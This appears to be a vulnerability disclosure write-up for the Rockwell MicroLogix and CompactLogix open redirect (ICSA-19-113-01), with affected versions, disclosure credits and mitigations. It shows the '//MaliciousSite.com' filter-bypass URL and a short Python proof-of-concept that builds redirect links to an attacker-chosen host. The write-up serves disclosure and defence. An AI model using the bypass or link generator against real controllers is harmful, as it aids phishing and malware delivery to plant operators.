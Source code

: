 # ICSA-19-113-01

The following Rockwell Automation products were discovered to contain an open redirect vulnerability:

* MicroLogix 1400 Controllers
* Series A, All Versions
* Series B, v15.002 and earlier
* MicroLogix 1100 Controllers v14.00 and earlier
* CompactLogix 5370 L1 controllers v30.014 and earlier
* CompactLogix 5370 L2 controllers v30.014 and earlier
* CompactLogix 5370 L3 controllers (includes CompactLogix GuardLogix controllers) v30.014 and earlier

## Open Redirect Vulnerabilities

An Open Redirect vulnerability occurs when a web application accepts user-supplied input in the URL that contains a link to an external website, redirecting the user's browser to a malicious website. 
The Open Redirect vulnerability discovered in various Rockwell Controllers is no exception to this rule. Each controller runs a web server that displays diagnostics about that specific PLC. There also exists a URL parameter that enables the PLC to redirect the user’s browser:

```
http://192.168.1.12/index.html?redirect=/localpage
```

The redirect parameter intends to send users to another page located on the PLCs website. Under normal circumstances, the PLC would filter out redirects to an external website, so if you tried the following:

```
http://192.168.1.12/index.html?redirect=/externalsite
```

it would filter out the request and prevent the browser from being sent to a malicious site. However, the PLCs redirect filter does not account for the various ways to enter a URL like so:

```
http://192.168.1.12/index.html?redirect=//MaliciousSite.com
```

From the browser’s perspective, the second ‘/’ character will be ignored, making it a valid URL yet bypassing the PLCs filter. The browser will then be redirected to the website provided after the second ‘/’. This type of client-side attack can aid in phishing campaigns to setup browser exploits or install malware.

## Proof of Concept Exploit

```
import argparse

parser = argparse.ArgumentParser(description='Callback Script')
parser.add_argument('-r', '--redirect', required=True, dest="redirect", action='store', help='Redirect Destination IP')		
parser.add_argument('-p', '--plc', required=True, dest="plc", action='store', help='Rockwell Controller IP')	
args = parser.parse_args()  #Parse Command Line Arguments

print("Generating link...")
print("http://"+args.plc+"/index.html?redirect=//"+args.redirect)

```

## Disclosure

The vulnerabilities were immediately reported to the National Cybersecurity and Communications Integration Center (NCCIC) by security researchers Josiah Bryan and Geancarlo Palavicini. You can find the full advisory [here](https://www.cisa.gov/uscert/ics/advisories/ICSA-19-113-01).

## Mitigation

Rockwell Automation has released an update for each of the affected devices. Rockwell also recommends users take defensive measures to minimize the risk of exploitation of this vulnerability. Specifically, users should:

* Update to the latest available firmware revision that addresses the associated risk.
* Use trusted software, software patches, anti-virus/anti-malware programs, and interact only with trusted websites and attachments.
* Minimize network exposure for all control system devices and/or systems, and ensure that they are not accessible from the Internet.
* Locate control system networks and devices behind firewalls and isolate them from the business network.
* When remote access is required, use secure methods such as virtual private networks (VPNs), recognizing that VPNs may have vulnerabilities and should be updated to the most current version available. VPN is only as secure as the connected devices.
* Employ training and awareness programs to educate users on the warning signs of a phishing or social engineering attack.
